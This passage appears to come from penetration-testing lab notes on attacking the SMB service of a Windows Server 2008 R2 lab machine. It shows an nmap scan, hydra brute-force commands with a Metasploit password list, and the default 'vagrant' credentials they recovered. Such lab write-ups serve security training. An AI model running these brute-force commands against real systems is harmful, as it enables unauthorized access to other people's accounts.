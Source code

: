 ### [SMB](../1-system-attack/windows-attacks/smb-psexec.md)

> Target IP: `10.2.26.45`
>
> Based on the FTP & SSH Enumeration:
>
> - `administrator`:`vagrant` - **FTP**
> - `vagrant`:`vagrant` - **FTP** + **SSH**

```bash
nmap -sV -sC -p 445 10.2.26.45
```

```bash
445/tcp open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
```

![](.gitbook/assets/image-20230424115855262.png)

- **Brute-force SMB**

```bash
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.26.45 smb
```

```bash
[445][smb] host: 10.2.26.45   login: administrator   password: vagrant
[445][smb] host: 10.2.26.45   login: vagrant   password: vagrant
```

![image-20230424120012718](.gitbook/assets/image-20230424120012718.png)
